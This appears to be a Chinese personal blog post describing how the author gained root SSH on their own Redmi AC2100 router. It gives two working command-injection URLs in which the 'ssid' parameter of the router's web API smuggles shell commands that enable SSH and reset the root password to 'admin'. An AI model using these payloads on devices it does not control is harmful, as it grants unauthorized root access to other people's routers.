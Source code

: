 ```yaml
---
date: 2021-01-29
title: 红米 AC2100 开启 SSH 权限
tags:
  - 刷机
  - 路由器
---
```

> TL;DR [看这里](https://www.right.com.cn/forum/thread-4032490-1-1.html)，成功版本为 `2.0.23 稳定版`。


之前按照 [这篇](https://www.xiaoz.me/archives/15192) 想开启路由器的 telnet 权限。

dalao 写了一些脚本，但是遇到了很多问题，包括但不限于：
- 由于忘关火绒导致 nc 被删除，弹出 `nc.exe不是内部或外部命令，也不是可运行的程序或批处理文件。8081端口被占用，请检查`。解决方法为进入火狐的恢复区恢复文件，并添加信任，以免误删。
- 获取包的时候脚本报错，但还是提示 PPPOE 获取成功。这个问题原因为演示版本为 `1.0.14`，而新路由器被官方自动升级为了 `2.0.23`，方法已不再适用。解决方法为从 `官方救砖工具以及原厂固件备份` 文件夹中手动上传 `1.0.14` 包升级 ROM。
- 第一次失败，无法继续。解决方法为断开 WAN LAN 口相连线，然后重试。

> 简单看了一下，dalao 应该是开启了一个 http 服务器（python -m http.server），然后在反弹 shell 那几个阶段从本地服强制覆盖官方文件。~~然后之所以破解包那么大是因为居然有整个 python，，，~~

爪巴了。

突然看到 [帖子说](https://www.right.com.cn/forum/thread-4032490-1-1.html) 有漏洞可以钻，试了下直接拿下了 SSH 的 root 权限：

首先注销登陆的账户，然后重新登陆，这时观察浏览器顶上的 url,会有 `stok` 的参数，这就是 token 啦。有了 token 按照帖子里的办法就办法注入了，只需要两次就行，一定要把 `<STOK>` 替换为自己的 token。

去掉 `#` 开头的注释，把链接复制到浏览器里面，**注意把 `<STOK>` 替换为自己的。**

```bash
# enable SSH

http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# (optional) change password to `admin`
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B

```

然后就可以愉快的登陆啦（密码为 `admin`）

```bash
ssh root@192.168.31.1
```

